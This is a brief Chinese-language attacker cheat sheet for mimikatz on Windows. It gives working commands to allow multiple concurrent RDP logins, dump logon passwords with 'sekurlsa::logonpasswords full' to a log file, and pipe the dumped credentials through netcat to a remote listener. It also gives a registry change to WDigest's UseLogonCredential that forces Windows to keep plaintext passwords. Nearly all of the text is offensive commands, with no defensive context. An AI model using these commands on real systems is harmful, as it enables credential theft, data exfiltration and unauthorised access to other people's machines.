 `允许多用户登录`
    
    mimikatz.exe,执行ts::multirdp允许多用户远程登录 重启失效
  
`mimikatz执行结果输出到文件`
    
    C:\>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt
`mimikatz执行结果输出到远程计算机(目标要上传nc)`

    local:E:\>nc -lvp 4444
    target:C:\>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit | nc.exe -vv 192.168.52.1 4444 
    
    
`Tips:`

    2012抓明文需要HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest的"UseLogonCredential"设置为1，类型为DWORD 32才可以
    
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

    
   
    
    
